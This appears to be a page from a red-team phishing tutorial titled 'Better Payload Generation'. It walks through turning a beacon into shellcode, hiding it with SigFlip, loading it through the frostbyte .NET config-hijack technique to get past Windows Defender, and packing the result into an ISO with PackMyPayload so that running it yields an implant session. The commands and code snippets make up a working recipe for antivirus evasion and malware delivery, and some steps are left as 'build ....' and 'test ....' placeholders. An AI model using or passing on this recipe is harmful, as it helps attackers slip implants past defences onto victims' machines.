 +++
title = "Better Payload Generation"
weight = 100
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github. Extract it to the desktop.

We need a .net binary with a .exe.config file. Windows has lots of those in `C:\Windows\Microsoft.NET\Framework64\v4.0.30319`.

![Windows Executable with Config](/static/how-to-phishing/windows-executable-with-config.png)

Generate shellcode


```bash
./SigFlip.exe -i "C:\Users\Administrator\Desktop\frostbyte-main\jsc.exe" "C:\Users\Administrator\Desktop\frostbyte-main\beacon64.bin" "C:\Users\Administrator\Desktop\frostbyte-main\test.exe" "secret"
```

We need to update the config file and replace the values of update and A54IPK. We also need to update `privatePath` to be a relative path `.`


open test.cs in visual studio. change the value of A54IPK 


```  

byte[] _peBlob = Read("test.exe");

byte[] _data = Decrypt(shellcode, "secret");
```
build ....


We'll also want to change some of the code to be a little different


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:test.dll ..\frostbyte-main\test.cs

```





test ....



### PackMyPayload

https://github.com/mgeeky/PackMyPayload

Create a new folder and andd your files (.dll, .exe, .exe.config)

```
./PackMyPayload.py --hide test.dll,test.exe.config foldername isoname.iso -v
```

now we should be able to mount the iso and run our exe to get an implant session.